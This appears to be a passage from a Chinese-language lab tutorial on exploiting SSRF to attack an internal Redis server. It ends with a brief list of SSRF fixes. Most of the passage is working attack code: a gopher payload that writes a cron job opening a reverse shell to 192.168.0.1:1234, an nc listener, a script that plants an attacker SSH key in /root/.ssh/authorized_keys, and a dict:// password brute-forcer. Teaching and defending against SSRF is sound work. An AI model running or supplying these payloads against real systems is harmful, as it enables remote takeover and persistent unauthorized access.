* 这个方法只能Centos上使用，Ubuntu上行不通，原因如下：

1.因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件`/var/spool/cron/crontabs/<username>`权限必须是600也就是`-rw-------`才会执行，否则会报错`(root) INSECURE MODE (mode 0600 expected)`，而Centos的定时任务文件`/var/spool/cron/<username>`权限644也能执行

2.因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错

```php
由于系统的不同，crontrab定时文件位置也会不同
Centos的定时任务文件在/var/spool/cron/<username>
Ubuntu定时任务文件在/var/spool/cron/crontabs/<username>
Centos和Ubuntu均存在的（需要root权限）/etc/crontab PS：高版本的redis默认启动是redis权限，故写这个文件是行不通的
```

（1）用Gopherus生成redis反弹shell的Payload

```php
python2 gopherus.py --exploit redis
```



（2）将gopher://127.0.0.1:6379/_后的内容再次进行url编码，就是我们最终使用的payload了。python脚本如下：

```python
from urllib.parse import quote
payload = ('%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2466%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/192.168.0.1/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A')
print("gopher://127.0.0.1:6379/_" +quote(payload))
```



（3）在本地主机运行nc监听1234端口

```php
nc -lvp 1234
```


（4）放入URL参数浏览器请求如下，将反弹shell代码写入到计划任务中





（5）成功反弹Shell




##### 实验三：写入SSH公钥

通过在目标机器上写入 ssh 公钥，然后便可以通过 ssh 免密码登录目标机器。

利用前提：

* Redis需要使用root用户启用

（1）在本地主机中生成ssh密钥对

```php
ssh-keygen
```



**（2）结合 SSRF来编写python漏洞利用脚本，编写脚本将内容转换为 RESP 协议的格式**

```python
from urllib.parse import quote
import urllib
ssh_public_key = "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFsiu57n3lO7O1z/sN2Qbk15BpwmEbXfRaCpETvfTx73CtM+gsBwuLW5M35pMDSxNCadTpvq1Kpc89JGyJJd407hsdhoY5uiSfloY6D64dcusUxS6Uuvy5Bzvgz1izJ9LqGI992hMhBHSxKkhTOLN7jyVdivYl1a6MzsUeied/AHPRiWVilwE0sme8BH35XYdwlTnT0/sI9i3VYHqPI2HmP2/V4OJOJsc4wBUgjcOoqzKcQDGVRDCmUXDEZMcG5stezq1klHW/SEQFh2hpDhzixYQ0GLSMUxrqk0YB1Z+5xXUEfKLRrS9q9F2t8ISLBNogWPI2qIYXg5tMcMxpc/mmja+26Fmkmn/xXruP5S8tdr8+abmesn87agybTv+mzmBF1/AHpQRlyhMMpvlyLnyVMV38avqadyqnJI7EBwIysBB0Mmhs1Kmh7rQC2reNN7w6a100ojR989Ay7C+xss05BtPZQWorLYOsM8cUfPzg4cij5K1Hb3yYqgSoj8DYBhE= root@Security\n\n"
filename = "authorized_keys"
path = "/root/.ssh/"
passwd = '123456'
cmd=["flushall",
     "set 1 {}".format(ssh_public_key.replace(" ","${IFS}")),
     "config set dir {}".format(path),
     "config set dbfilename {}".format(filename),
     "save"
     ]

def redis_format(arr):
    CRLF="\r\n"
    redis_arr = arr.split(" ")
    cmd=""
    cmd+="*"+str(len(redis_arr))
    for x in redis_arr:
        cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
    cmd+=CRLF
    return cmd

if __name__=="__main__":
    payload = "gopher://127.0.0.1:6379/_"
    for x in cmd:
        payload += quote(quote(redis_format(x)))
    print(payload)
```



（3）放入URL参数浏览器请求如下，将公钥写入到目标主机/root/.ssh/authorized_keys下





（4）ssh免密登录到目标主机上




##### 实验四：SSRF暴力破解内网Redis弱口令

在内网redis需要密码的情况下，使用dict协议或者gopher协议登录。

（1）使用dict协议爆破密码，密码正确返回信息如下：



密码不正确返回信息如下：



（2）编写Python脚本爆破redis服务

```python
import requests

url = "http://192.168.0.137/ssrf.php"

with open('passwords.txt','r') as file:
    print("----------正在爆破密码------------")
    for password in file.readlines():
        passwd = password.strip("\n")
        auth = {"url":"dict://127.0.0.1:6379/auth:%s" % passwd}
        try:
            result = requests.post(url,data=auth,timeout=2).text
            if "+OK\r\n+OK\r\n" in result:
                print("爆破成功 密码为:%s" % passwd)
                break
        except Exception as e:
            pass
```




------

## 漏洞修复

- 1、禁用不需要的协议(如：`file:///`、`gopher://`,`dict://`等)。仅仅允许http和https请求
  2、统一错误信息，防止根据错误信息判断端口状态
  3、禁止302跳转，或每次跳转，都检查新的Host是否是内网IP，直到抵达最后的网址
  4、设置URL白名单或者限制内网IP


参考文章：

https://websec.readthedocs.io/zh/latest/vuln/ssrf.html

https://www.cnblogs.com/coderge/p/13703065.html
